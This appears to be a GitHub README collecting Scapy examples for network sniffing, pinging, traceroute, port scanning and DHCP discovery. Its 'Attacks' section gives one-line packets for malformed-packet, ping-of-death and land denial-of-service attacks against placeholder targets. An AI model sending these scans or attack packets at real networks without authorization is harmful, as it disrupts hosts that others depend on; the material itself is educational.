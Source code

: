 # Scapy (In-progress :hammer: :hammer:)
Fullfilling my need to hack networks (ethically) :scream_cat:


# Credits: https://github.com/0x90
Scapy docs, examples, scripts and other stuff

## WARNiNG: NOT ALL SCRIPTS ARE TESTED! CHECK BEFORE RUNNING!

## Contents

docs - diffrent scapy docs
examples - examples for official Scapy usage and more



## Tutorial

Official Scapy usage tutorial is located [here](http://www.secdev.org/projects/scapy/doc/usage.html)

## Simple examples

### Sniff
 
Sniffing on eth0:
```python
    sniff(iface="eth0", prn=lambda x: x.summary())
    sniff(iface="eth0", prn=lambda x: x.show())
```
	
Formated sniff output
```python
    pkts = sniff(prn=lambda x:x.sprintf("{IP:%IP.src% -> %IP.dst%\n}{Raw:%Raw.load%\n}"))
```
	
Identify ports
```python
    a=sniff(filter="tcp and ( port 25 or port 110 )", \
    prn=lambda x: x.sprintf("%IP.src%:%TCP.sport% -> %IP.dst%:%TCP.dport%  %2s,TCP.flags% : %TCP.payload%"))
```
 
### Ping

TCP ping:
```python
	srloop(IP(dst="www.google.com/30")/TCP())
```

TCP ping:
```python
    ans,unans = sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") )
	ans.summary( lambda(s,r) : r.sprintf("%IP.src% conteasta") )
```
    
UDP ping
```python
    ans,unans = sr( IP(dst="192.168.1.1-10")/UDP(dport=0) )
	ans.summary( lambda(s,r) : r.sprintf("%IP.src% contesta en udp") )
```

ARP ping manual:
```python
	ans,unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"),timeout=2)
	ans.summary(lambda (s,r): r.sprintf("%Ether.src% %ARP.psrc%") )
```

ARP ping built in:
```python
	arping("192.168.1.1")
```
    
Traceroute:
```python
	traceroute(["www.google.com","www.ust.cl","www.terra.cl","www.microsoft.com"],maxttl=20)
	result, unans=_
	result.show()
	# save output
	result.graph(type="ps", target="|lp")
	result.graph(target="> grafico.svg")
```

Advaced traceroute + DNS
```python
	ans,unans = sr(IP(dst="terra.cl",ttl=(1,10))/TCP(dport=53,flags="S"))
	ans.summary( lambda(s,r) : r.sprintf("%IP.src%\t{ICMP:%ICMP.type%}\t{TCP:%TCP.flags%}"))
```

Dump traceroute output:
```python
	res,unans = traceroute(["www.ust.cl","www.santotomas.cl"],dport=[80,443],maxttl=20,retry=-2)
	res.graph(type="ps", target="|lp")
	res.graph(target="> grafico.svg")
```

Port scanner:
```python
	res,unans = sr( IP(dst="target")/TCP(flags="S", dport=(1,1024)) )
	res.nsummary( lfilter=lambda (s,r): (r.haslayer(TCP) and (r.getlayer(TCP).flags & 2)) )
```

OS fingerprint:
```python
	ans,unans = srloop(IP(dst="192.168.1.1")/TCP(dport=80,flags="S"))
```

###	Attacks
	
Malformed packets:
	
```python
    send(IP(dst="192.168.1.1", ihl=2, version=3)/ICMP())
```
	
Ping of death:
```python
    send( fragment(IP(dst="192.168.1.1")/ICMP()/("X"*60000)) )
```

Land attack (windows):
```python
    send(IP(src=target,dst=target)/TCP(sport=135,dport=135))
```
 
DHCP discovery:
```python
	conf.checkIPaddr = False
	fam,hw = get_if_raw_hwaddr(conf.iface)
	dhcp_discover = Ether(dst="ff:ff:ff:ff:ff:ff")/IP(src="0.0.0.0",dst="255.255.255.255")/UDP(sport=68,dport=67)/BOOTP(chaddr=hw)/DHCP(options=[("message-type","discover"),"end"])
	ans, unans = srp(dhcp_discover, multi=True)
	ans.display()
```

## Links

http://stackoverflow.com/questions/10818661/scapy-retrieving-rssi-from-wifi-packets

http://hackoftheday.securitytube.net/2013/04/wi-fi-ssid-sniffer-in-12-lines-of.html

http://hackoftheday.securitytube.net/2013/03/wi-fi-sniffer-in-10-lines-of-python.html

http://scholarworks.sjsu.edu/cgi/viewcontent.cgi?article=1191&context=etd_projects

http://pen-testing.sans.org/blog/2011/10/13/special-request-wireless-client-sniffing-with-scapy

http://raidersec.blogspot.com/2013/01/wireless-deauth-attack-using-aireplay.html

http://www.secdev.org/projects/scapy/portability.html

